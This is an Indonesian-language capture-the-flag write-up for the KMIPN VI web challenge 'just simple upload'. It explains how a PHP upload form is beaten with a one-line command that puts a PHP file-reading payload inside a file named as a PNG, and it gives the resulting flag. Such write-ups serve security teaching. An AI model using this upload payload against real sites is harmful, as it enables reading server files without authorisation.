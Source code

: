 ```yaml
---
icon: globe-pointer
---
```


# just simple upload

{% hint style="info" %}
Tantangan web KMIPN VI yang sangat mudah diselesaikan. Seperti pada namanya, upload file dan dapatkan flagnya jika paylaod-nya sudah sesuai.
{% endhint %}

## 1. Deskripsi Tantangan

> temen ku baru belajar bikin form upload, sepertinya tidak beres
>
> [_http://157.173.204.136:8089/_](http://157.173.204.136:8089/)

## 2. Langkah Penyelesaian

* Sebuah web simple berbasis PHP yang memiliki fitur untuk upload file.
* Craft sebuah png file yang disisipkan dengan script malicious php berikut ini.

```bash
echo "<?php echo file_get_contents('flag.txt'); ?>" > get_flag.png
```

* Upload file tersebut dan nantinya akan tampil flag-nya!

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## 3. Flag

<kbd>KMIPNVIPNJ{disable\_function\_on\_upload\_file\_exploit}</kbd>

***

## References

* [https://github.com/azfarwisnu/KMIPN-FINAL-CYBER-SECURITY-2024/tree/main/web](https://github.com/azfarwisnu/KMIPN-FINAL-CYBER-SECURITY-2024/tree/main/web)

***

**Tags**: #ctf, #web
